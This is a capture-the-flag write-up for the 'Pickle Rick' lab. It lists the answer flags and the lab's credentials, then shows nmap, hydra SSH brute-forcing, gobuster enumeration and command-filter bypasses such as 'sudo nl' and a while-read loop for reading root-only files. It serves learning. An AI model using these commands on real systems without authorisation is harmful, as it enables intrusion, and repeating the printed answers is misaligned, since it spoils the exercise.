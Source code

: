 # Pickle Rick 🥒

**Date:** 04.02.2025  
**Difficulty:** Easy

---

## Questions and Answers ✅

1. **What is the first ingredient that Rick needs?**  
   `mr. meeseek hair`
2. **What is the second ingredient in Rick’s potion?**  
   `1 jerry tear`
3. **What is the last and final ingredient?**  
   `fleeb juice`

---

## Obtained Information 🔍

- **Target IP Address:** `<IP_ADDRESS>`
- **Rick's Username:** `R1ckRul3s`
- **Password found inside robots.txt:** `Wubbalubbadubdub`

---

## Process 🕵️‍♂️

### **1. Scanning the target with Nmap**

```bash
nmap -sV <IP_ADDRESS>
```

**Results:**

- Open ports: `22 (SSH)`, `80 (HTTP)`

### **2. Exploring the Website**

Rick left a message for Morty:

```text
Help Morty!
Listen Morty... I need your help, I've turned myself into a pickle again...
I have no idea what the password was! Help Morty, Help!
```

### **3. Inspecting Source Code**

Found a hidden comment with a username:

```html
<!-- Note to self, remember username! Username: R1ckRul3s -->
```

### **4. Attempting SSH Brute-Force (Failed)**

```bash
hydra -l R1ckRul3s -P ./Tools/wordlists/rockyou.txt "ssh://<IP_ADDRESS>"
```

**Error:**

```bash
Permission denied (publickey).
```

SSH does not support password authentication.

### **5. Enumerating Directories with Gobuster**

```bash
gobuster dir -u "http://<IP_ADDRESS>" -w ./Tools/wordlists/dirbuster/directory-list-2.3-medium.txt -r
```

**Results:**

- `/assets` (Status: 200) ✅
- `/server-status` (Status: 403)

Checked `/assets`, found images and JavaScript files, but no useful metadata.

### **6. Finding Hidden Credentials in robots.txt**

A file named `robots.txt.tmp` contained the password:

```text
Wubbalubbadubdub
```

### **7. Searching for Login Pages**

Running Gobuster again with `.php` extension:

```bash
gobuster dir -u "http://<IP_ADDRESS>" -w ./Tools/wordlists/dirbuster/directory-list-2.3-small.txt -x .js,.php
```

**Results:**

- `/login.php` (Status: 200) ✅
- `/portal.php` (Status: 302)

### **8. Logging in and Exploring the System**

Using obtained credentials, I accessed a command panel. Running `ls` revealed a file:

```
Sup3rS3cretPickl3Ingred.txt
```

Tried `cat` but it was restricted. Instead, accessed it via the browser:

```bash
http://<IP_ADDRESS>/Sup3rS3cretPickl3Ingred.txt
```

✅ First ingredient found!

### **9. Finding the Second Ingredient**

A `clue.txt` file provided a hint:

```text
Look around the file system for the other ingredient.
```

Found `second ingredient` in `/home/rick/`, but `cat` was blocked. Used:

```bash
while read line; do echo $line; done <../../../home/rick/"second ingredients"
```

✅ Second ingredient found!

### **10. Finding the Third Ingredient (Root Access Needed)**

A file named `3rd.txt` was in `/root`. Used `sudo` to list contents:

```bash
sudo ls ../../../root
```

Then, bypassed `cat` restriction with:

```bash
sudo nl ../../../root/3rd.txt
```

✅ Third ingredient found!

```text
3rd ingredient: fleeb juice
```

---

## Reflection & Questions for Further Research 🤔💡

- What does `Permission denied (publickey).` mean when using SSH?

---

## Summary & Takeaways 📌📖

- **Inspecting robots.txt** can reveal sensitive information.
- **Gobuster with `-x` (extensions)** helps detect hidden `.php` pages.
- **`sudo` and alternative command-line tools (`nl`, `while read`)** help bypass restrictions.
- **Enumerating files manually in `/home` and `/root`** can lead to critical discoveries.

🚀 Another successful CTF completed! On to the next one! 💪
